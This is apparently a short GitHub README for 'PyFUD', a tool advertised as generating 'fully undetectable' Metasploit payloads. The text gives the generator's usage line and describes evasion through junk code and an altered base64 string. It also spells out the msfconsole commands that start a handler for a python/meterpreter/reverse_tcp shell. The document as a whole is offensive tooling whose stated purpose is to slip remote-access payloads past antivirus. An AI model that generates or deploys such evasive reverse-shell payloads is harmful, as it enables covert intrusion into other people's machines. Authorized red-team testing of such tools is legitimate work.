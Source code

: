 # PyFUD
fully Undetectable payload generator for metasploit
Usage: 
pyfud.py --host HOST --output OUTPUT file name --port PORT
the payload is made fully Undetectable by adding some junk code into the main program and some changes are made on the base64 string
tested on windows 10
metasploit setup:
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lport {port used to make payload}
set lhost {your local ip adress or just 0.0.0.0}
run
